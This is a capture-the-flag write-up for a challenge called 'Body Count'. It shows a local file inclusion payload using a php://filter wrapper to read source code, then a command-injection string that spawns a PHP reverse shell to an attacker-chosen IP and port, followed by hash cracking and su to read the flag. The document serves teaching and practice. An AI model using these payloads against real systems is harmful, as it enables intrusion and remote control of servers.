 # Body Count

Looking at the url path(`/?file=wc.php`), we can try to access files with LFI. `/?file=php://filter/convert.base64-encode/resource=wc.php` gives us the source code([wc.php](./wc.php)). We need to somehow access the environment variables in order to move on to the second step. After some trial and error, plus a tip from my teammate `jalibr33z3`, we realize that `/?file=robots.txt` points us to `checkpass.php`. Using the same technique, we can read its source code([checkpass.php](./checkpass.php)). Setting our cookie to `password=w0rdc0unt123` brings us to the second step.

This step is vulnerable to Command Injection, so we can spawn a reverse shell with `'; (php -r '$sock=fsockopen("127.0.0.1",1337);exec("/bin/sh -i <&3 >&3 2>&3");') || echo '`, substituting in your ip and port. We find a `/ctf` folder, with a README and some other directories. The README says:
`My password hash is 6f246c872cbf0b7fd7530b7aa235e67e.`
Cracking this results in `csictf`. We can find the flag file with `find . | grep flag`, which ends up being `./system/of/a/down/flag.txt`. However, we do not have sufficient permissions to read it. We `su ctf` and enter `csictf` as the password, giving us the perms needed to read the flag file.

Flag: csictf{1nj3ct10n_15_p41nfu1}
